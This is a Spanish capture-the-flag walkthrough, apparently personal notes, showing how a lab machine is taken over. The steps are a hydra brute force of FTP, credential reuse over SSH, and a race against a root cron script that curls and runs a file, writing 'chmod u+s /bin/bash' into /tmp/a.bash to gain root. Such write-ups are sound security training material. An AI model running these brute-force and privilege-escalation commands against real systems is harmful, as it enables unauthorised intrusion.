 Hacemos el escaneo de nmap:
![[Pasted image 20230805105624.png]]
Y esto es lo que corre por el puerto 80, donde se hace una mención al protocolo ftp y vemos un usuario llamado Juan:
![[Pasted image 20230805105655.png]]
Por lo que hacemos un ataque de fuerza bruta con hydra:
```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.60
```
![[Pasted image 20230805110031.png]]
Dentro del servidor ftp vemos muchos archivos:
![[Pasted image 20230805110452.png]]
Por lo que haremos una descarga recursiva de todos estos archivos con el comando wget de esta forma, poniendo la IP del servidor FTP:
```bash
wget -r ftp://"juan":"alexis"@192.168.0.60/
```
![[Pasted image 20230805111420.png]]
Si ejecutamos el comando tree veremos todos los archivos dentro de las carpetas, donde vemos un fichero de contraseña:
![[Pasted image 20230805111503.png]]
Pero es un rabbit hole:
![[Pasted image 20230805111529.png]]
De todos modos con el comando tree no estamos viendo los archivos ocultos, por lo que usaremos un tree -a .
```bash
tree -a .
```
Y ahora vemos un archivo oculto dentro de fold10:
![[Pasted image 20230805111929.png]]
Y nos dice algo de una cookie dentro del directorio personal del usuario:
![[Pasted image 20230805111954.png]]
De todos modos, dejando esta parte en pausa, si accedemos vía ssh con las credenciales de FTP vemos que estamos dentro:
![[Pasted image 20230805112407.png]]
Vemos 2 usuarios dentro de /home:
![[Pasted image 20230805112609.png]]
Pero lo interesante es si buscamos archivos con extensión .sh, donde vemos que hay uno muy interesante:
```bash
find / -name *.sh 2>/dev/null | xargs ls -l
```
![[Pasted image 20230805112915.png]]
Y si vemos el contenido del script sería este, donde vemos que se hace un curl a un archivo y luego se ejecuta con bash:
![[Pasted image 20230805113404.png]]
Nos da que pensar que este script se está ejecutando por detrás de forma automatizada, por lo que tenemos una utilidad llamada pspy para ver procesos que están corriendo:
![[Pasted image 20230805113713.png]]
Nos lo compartimos con curl porque wget no está instalado en la máquina víctima:
![[Pasted image 20230805113829.png]]
Y se empieza a ejecutar:
![[Pasted image 20230805114004.png]]
Y podemos confirmar que el script se ejecuta cada cierto tiempo:
![[Pasted image 20230805114102.png]]
La idea es poder crear un fichero llamado a.bash y hacer que el script lo ejecute antes de que llegue a eliminarlo:
![[Pasted image 20230805113404.png]]
Por tanto vamos a crear un bucle que constantemente esté creando el archivo con el código malicioso:
```bash
#!/bin/bash

while true; do
    echo 'chmod u+s /bin/bash' >> /tmp/a.bash && echo 'Funciona'
done
```
Si hacemos esto estaremos creando constantemente dicho archivo y si ejecutamos el script conseguiremos que se ejecute el código malicioso:
![[Pasted image 20230805115251.png]]
Y mientras este bucle se ejecuta, posiblemente se haya ejecutado de forma automatizada el script de chek_for_install.sh, por lo que detenemos el script y probamos en ejecutar un bash -p y ya somos root:
![[Pasted image 20230805115354.png]]
